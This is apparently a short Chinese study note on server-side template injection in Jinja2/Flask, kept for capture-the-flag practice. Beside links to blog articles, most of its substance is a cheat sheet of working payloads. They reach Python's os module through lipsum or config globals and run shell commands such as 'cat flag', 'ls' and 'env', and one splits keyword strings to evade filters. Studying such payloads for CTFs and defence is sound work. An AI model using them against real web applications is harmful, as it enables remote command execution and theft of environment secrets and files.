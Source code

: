 SSTI

[TOC]

![img](https://img-blog.csdnimg.cn/a871c4160af248e5a3f09e015f02690e.webp)

###### 写一些payload语句

[关于SSTI注入的一些理解_sst注入-CSDN博客](https://blog.csdn.net/weixin_44477223/article/details/115673318)

[SSTI详解 一文了解SSTI和所有常见payload 以flask模板为例_一文ssti-CSDN博客](https://blog.csdn.net/weixin_44604541/article/details/109048578?ops_request_misc=%7B%22request%5Fid%22%3A%22170875360116800192248427%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=170875360116800192248427&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-15-109048578-null-null.142^v99^pc_search_result_base1&utm_term=SSTI {%&spm=1018.2226.3001.4187)

https://blog.csdn.net/LYJ20010728/article/details/120205725?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522169871461916800222850013%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=169871461916800222850013&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-120205725-null-null.142^v96^pc_search_result_base3&utm_term=ssti%20fuzz&spm=1018.2226.3001.4187

![1708753760870](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1708753760870.png)

site._Printer,warning,可能有OS模块。

```

{{lipsum.__globals__.get("os").popen("tac f*").read()}}
```

```
?name={{7*‘7’}} 检测出存在 SSTI 无过滤

?name={{config.class.init.globals[‘os’].popen(‘ls’).read() }} 发现flag

?name={{config.class.init.globals[‘os’].popen(‘cat flag’).read() }}
```

```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```

```
{%print(lipsum.__globals__.os.popen('env').read())%}
```

```
{{lipsum.__globals__['o''s']['pop''en']("cat /Th1s_is__F1114g").read()}}
```

[SSTI之细说jinja2的常用构造及利用思路_json ssti-CSDN博客](https://blog.csdn.net/qq_38154820/article/details/129861556?ops_request_misc=%7B%22request%5Fid%22%3A%22170660228816777224412884%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=170660228816777224412884&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-129861556-null-null.142^v99^pc_search_result_base1&utm_term=SSTI jinjia2&spm=1018.2226.3001.4187)

###### 基础学习一下
